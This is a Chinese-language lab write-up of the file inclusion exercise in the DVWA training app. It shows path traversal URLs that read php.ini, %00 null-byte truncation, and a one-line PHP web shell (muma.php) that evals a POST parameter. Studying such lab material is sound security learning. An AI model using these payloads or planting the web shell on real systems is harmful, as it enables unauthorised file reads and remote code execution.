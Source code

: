 ## 4.文件包含
首先需要满足：在dvwa的Setup Check中
`PHP`
`PHP version: 7.3.4`
`PHP function display_errors: Enabled`
`PHP function display_startup_errors: Enabled`
`PHP function allow_url_include: Enabled`
`PHP function allow_url_fopen: Enabled`
`PHP module gd: Installed`
`PHP module mysql: Installed`
`PHP module pdo_mysql: Installed`

具体参看了其他教程，注意的是修改了对应的php.ini后需要对apache重启，否则不生效
### low
可以分别查看file1,file2,file3的内容，比如file3的内容以及**URL信息后缀**
![[Pasted image 20250319214339.png]]
以上可知：通过page=xxx来打开相应的文件
尝试包含一个不存在的本地文件nihao.php,提示error
![[Pasted image 20250320151251.png]]
同理尝试phpinfo.php,发现error,说明服务器类型不是linux
![[Pasted image 20250320151411.png]]
同理尝试/etc/shadow,报错，说明不是linux
通过上述路径可以发现服务器的绝对路径就是 C:\PhpStudy\phpstudy_pro\WWW\
![[Pasted image 20250320154300.png]]
用服务器绝对路径进行伪造，可以成功读取到服务器的php.ini的文件内容，如上图。
也可以成功读到phpinfo.php,这里直接把后面改了

接下来用相对地址，输入http://192.168.153.139/DVWA-master/vulnerabilities/fi/?page=../../php.ini
可以发现可以看到php.ini
![[Pasted image 20250320201217.png]]
配置文件中Magic_quote_gpc选项为off。在php版本小于5.3.4的服务器中，当Magic_quote_gpc选项为off时，我们可以在文件名中使用%00进行截断
http://192.168.153.139/DVWA-master/vulnerabilities/fi/?page=../../php.ini%0012.php 的效果与上面的完全一致
![[Pasted image 20250320201516.png]]

### 用一句话木马
在网站根目录下创建muma.php文件
muma.php的内容如下：
```
`<?php`
`ini_set('display_errors', 1);`
`error_reporting(E_ALL);`

`if (isset($_POST['key'])) {`
    `@eval($_POST['key']);`
    `echo "Command executed successfully.";`
`} else {`
    `echo "No command received.";`
`}`
`?>`
```
